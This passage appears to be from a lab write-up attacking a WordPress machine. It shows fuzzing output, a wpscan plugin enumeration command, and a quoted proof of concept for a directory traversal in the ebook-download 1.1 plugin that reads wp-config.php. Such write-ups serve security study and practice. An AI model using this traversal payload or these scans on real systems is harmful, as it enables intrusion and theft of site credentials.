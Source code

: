 ```text
Target: http://10.10.11.125/FUZZ
Total requests: 13368
==================================================================
ID    Response   Lines      Word         Chars          Request    
==================================================================
00468:  C=403      9 L	      28 W	    277 Ch	  "wp-content/plugins/akismet/"
04592:  C=500      0 L	       0 W	      0 Ch	  "wp-content/plugins/hello.php"
04593:  C=500      0 L	       0 W	      0 Ch	  "wp-content/plugins/hello.php/"

Total time: 0
Processed Requests: 13368
Filtered Requests: 13365
Requests/sec.: 0
```
{: file="enum/access/wp-content-plugins.fuzz"}

We will find the `akismet` and the `hello.php` plugins. This plugins don't seem to have any vulnerability, so we will proceed to examine the `CMS` further.

### Wordpress

#### Wpscan

We don't have a defined access point, so we will enumerate further the web server. We are dealing with a `Wordpress` web server, so we can use the [wpscan](https://github.com/wpscanteam/wpscan) tool to enumerate it.

We will start by performing aggressive plugin detection. This will allow us to discover if there are more plugins than the ones that we have found doing fuzzing:

```bash
wpscan -e ap --plugins-detection aggressive --url http://10.10.11.125
```

![Desktop View](wpscan.png){: w="700" h="400" }
_WpScan plugins_

We can see how there is a plugin called `ebook-download` that we haven't discovered in the fuzzing phase. Additionally, `wpscan` reveals to us that the version that is being used is `1.1`.

#### Directory Traversal

We will search for exploits in the `ebook-download` plugin with [searchsploit](https://github.com/offensive-security/exploitdb):

![Desktop View](searchsploit.png){: w="700" h="400" }
_Searchsploit_

There is a `Directory Traversal` vulnerability in the `1.1` version of `ebook-download`, the version that we have just discovered the web server is using. We will inspect this exploit further:

```text
# Exploit Title: Wordpress eBook Download 1.1 | Directory Traversal
# Exploit Author: Wçadeek
# Website Author: https://github.com/Wad-Deek
# Software Link: https://downloads.wordpress.org/plugin/ebook-download.zip
# Version: 1.1
# Tested on: Xampp on Windows7

[Version Disclosure]
======================================
http://localhost/wordpress/wp-content/plugins/ebook-download/readme.txt
======================================

[PoC]
======================================
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```